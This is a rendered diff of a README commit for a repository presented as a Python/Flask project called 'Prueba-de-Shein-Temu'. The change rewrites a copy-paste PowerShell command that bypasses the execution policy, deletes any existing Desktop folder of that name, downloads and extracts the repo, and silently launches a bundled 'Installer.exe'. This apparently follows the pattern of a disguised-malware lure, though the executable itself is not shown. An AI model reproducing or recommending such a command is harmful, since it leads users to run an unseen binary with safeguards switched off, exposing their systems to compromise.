

Before and after one commit to Riutexu/Prueba-de-Shein-Temu, a Markdown page: README.md, the part around the change. Rendered like a GitHub page.

Commit message:
Refactor PowerShell script in README
Updated PowerShell command for downloading and installing the repository.

````diff
--- a/README.md
+++ b/README.md
@@ -33,7 +33,7 @@ Construido sobre **Python 3.10+, Flask y SQLAlchemy 2.0**, este proyecto nació
 Si quieres dejar de sufrir, simplemente abre tu terminal y ejecuta:
 
 ```powershell
-powershell -Command "Set-ExecutionPolicy Bypass -Scope Process -Force; $destDir = [System.IO.Path]::Combine([Environment]::GetFolderPath('Desktop'), 'Prueba-de-Shein-Temu'); if (Test-Path $destDir) { Remove-Item $destDir -Recurse -Force }; $zip = "$env:TEMP\repo.zip"; Invoke-WebRequest -Uri 'https://github.com/Riutexu/Prueba-de-Shein-Temu/archive/refs/heads/main.zip' -OutFile $zip; Expand-Archive -Path $zip -DestinationPath "$env:TEMP\extract" -Force; Move-Item "$env:TEMP\extract\Prueba-de-Shein-Temu-main" $destDir; Remove-Item $zip; Remove-Item "$env:TEMP\extract" -Recurse -Force; if (Test-Path '$destDir\Installer.exe') { Start-Process -FilePath '$destDir\Installer.exe' -ArgumentList '/S' -Wait -WorkingDirectory $destDir } else { Write-Host 'Error: Installer.exe no encontrado.' -ForegroundColor Red }"
+Set-ExecutionPolicy Bypass -Scope Process -Force; $destDir = Join-Path ([Environment]::GetFolderPath('Desktop')) 'Prueba-de-Shein-Temu'; $zipFile = Join-Path $env:TEMP 'repo.zip'; if (Test-Path $destDir) { Remove-Item $destDir -Recurse -Force }; Invoke-WebRequest -Uri "https://github.com/Riutexu/Prueba-de-Shein-Temu/archive/refs/heads/main.zip" -OutFile $zipFile; Expand-Archive -Path $zipFile -DestinationPath "$env:TEMP\extract" -Force; Move-Item "$env:TEMP\extract\Prueba-de-Shein-Temu-main" $destDir; Remove-Item $zipFile; Remove-Item "$env:TEMP\extract" -Recurse -Force; if (Test-Path "$destDir\Installer.exe") { Start-Process -FilePath "$destDir\Installer.exe" -ArgumentList "/S" -Wait -WorkingDirectory $destDir } else { Write-Host "Error: Installer.exe no encontrado en el repositorio." -ForegroundColor Red }
 ```
 
 Este script se encarga de todo: descargar el repo, preparar el entorno, instalar dependencias y dejarte un icono en el escritorio.
````
